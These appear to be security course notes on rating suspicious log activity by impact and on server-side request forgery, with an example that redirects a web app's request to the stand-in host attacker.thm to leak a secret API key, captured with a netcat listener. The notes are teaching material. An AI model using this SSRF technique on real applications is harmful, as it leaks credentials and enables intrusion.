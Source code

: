 ## Responding to Suspicious Activity  

- Detection alone is not enough → rate suspicious activity according to **impact level**.  
- High-impact actions → raise alarms to alert relevant teams immediately.  
- Example: Multiple failed admin login attempts = high-impact → immediate response required.  

---

## Practice  

- Analyse sample log files to detect suspicious activity.  
- Download sample logs via the task file or provided link.  

---
# Server-Side Request Forgery (SSRF)  

SSRF occurs when an attacker can **coerce a web application** into sending requests on their behalf to arbitrary destinations.  
The attacker can also **control the contents of the request**.  

SSRF often arises when a web application interacts with **third-party services**.  

---

## Example Scenario  

- Web app uses an **external API** to send SMS notifications.  
- Each request includes a **secret API key** to authenticate the sender.  

Vulnerability:  
- The web app exposes a parameter (e.g., `server`) to the user.  
- The attacker can change this parameter to point to their own server.  
- The web app forwards the request, revealing the API key to the attacker.  

### Attack Example  

User request to vulnerable web app:  

https://www.mysite.com/sms?server=attacker.thm&msg=ABC

Web app sends request to attacker-controlled server:  

https://attacker.thm/api/send?msg=ABC

Capture request with Netcat:  

nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: /

---